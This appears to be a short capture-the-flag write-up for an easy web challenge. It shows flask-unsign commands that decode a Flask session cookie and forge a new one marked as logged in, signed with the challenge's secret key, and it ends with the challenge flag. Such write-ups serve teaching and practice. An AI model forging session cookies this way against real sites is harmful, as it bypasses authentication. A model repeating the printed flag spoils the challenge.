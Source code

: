 # Questions takeover
**_Web exploitation_** \
Difficulty: Easy

### 1. Unsigning the cookie (after failure) using the `flask-unsign` tool
```shell
python3 flask-unsign --decode --cookie eyJpc19sb2dnZWQiOmZhbHNlfQ.ZqeWdg.cAfCp-FMb78hg7IXB_Mz_oZdLa4
# {'is_logged': False}
```

### 2. Cookie fabrication
Changed its content to `{'is_logged': True}` and signed it with the given secret key
```shell
python3 flask-unsign --sign --cookie "{'is_logged': True}" --secret 'ie3rB96WqjRb35ey74cU' --legacy
# eyJpc19sb2dnZWQiOnRydWV9.ZqehoQ.UylhN1eX7EaSCKzpe931BCdhmeU
```

### 3. Setting the cookie in the browser and refreshing the page

### 4. Result
Flag: `EE_CTF{K0ch4m_S0cz3wk1_XbcHX34UG9YCzTy}`

